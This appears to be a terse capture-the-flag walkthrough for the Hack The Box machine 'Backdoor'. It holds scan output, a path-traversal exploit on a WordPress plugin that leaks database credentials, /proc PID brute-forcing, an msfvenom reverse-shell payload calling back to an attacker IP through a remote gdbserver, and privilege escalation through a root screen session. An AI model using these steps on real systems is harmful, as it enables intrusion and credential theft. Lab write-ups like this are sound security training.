






Box info:
linux
IP 10.10.11.125
see 

nmap::
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-sU::
Not shown: 992 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
514/udp   open|filtered syslog
1056/udp  open|filtered vfo
18255/udp open|filtered unknown
19165/udp open|filtered unknown
19695/udp open|filtered unknown
21104/udp open|filtered unknown
32777/udp open|filtered sometimes-rpc18
58075/udp open|filtered unknown

`rustscan -a backdoor.htb -u 2500::`
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack Waste?

`gobuster::`
+index.php, /wp-login.php, wp-content/uploads/,
/wp-content/plugins/akismet - no permission
/wp-content/plugins - "ebook-download && hello.php" see 
`whatweb backdoor.htb::`
```
http://backdoor.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[wordpress@example.com], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.125], JQuery[3.6.0], MetaGenerator[WordPress 5.8.1],
PoweredBy[WordPress], Script, Title[Backdoor &#8211; Real-Life], UncommonHeaders[link], WordPress[5.8.1]
```

Attempts::
WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/37902.php
ebook-download exploit:: [CVE](https://www.exploit-db.com/exploits/39575) see 
`backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`
```
wp-config.php:: 
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```

##**LFISuite**##

```
python2 lfisuite:: 
+ 1 -> exploiter 
+ 9 -> Auto-hack
+ [*] Enter the URL you want to try to hack -> http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
+ http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd
```
send to burp:: XYZ=/etc/passwd
+ /proc/PID/cmdline = displays which ever process is running on commandline:: Brute force PID number.
+ Burp - intruder - upload numberlist::
+ Response#:: 868:: See 

##**gdbserver exploit::##**
gdbserver 1337:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=9999 PrependFork=true -f elf -o binary.elf
chmod +x binary.elf
gdb binary.elf
gdb>target extended-remote 10.10.11.125:1337 #remote gdb target
gdb>remote put binary.elf binary.elf #upload binary.elf
gdb>set remote exec-file /home/user/binary.elf #remote exe. file
gdb>run #See 
set up listener:: nc -lvnp 9999
```
see 
see [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) 
user:: f8424547e0a469bd46d72cda45ff861f

##**Linpeas.sh::**##
+ -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
+ -rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable  
+Files with capabilities (limited to 50):
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep

Broken shells:
+-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at                                                              
`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`                                                
`mysql -u wordpressuser -p MQYBJSaD#DxG6qbm`

Capablities??
GTFObins:: no luck

```
ps aux | grep "screen"   
root         870  0.0  0.0   2608  1728 ?        Ss   Jan27   0:27 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
export TERM=xterm
screen -x root/root
```
root:: 3faa65cadf9e930098a7786d3dc4ee44

WIFI TODO: https://github.com/D35m0nd142/DWH

[Linux Filesystem Hierarchy](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)
[hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver)
[LFISuite](https://github.com/D35m0nd142/LFISuite)
[walkthrough](https://infosecwriteups.com/backdoor-hackthebox-walkthrough-6e4e8b483db1)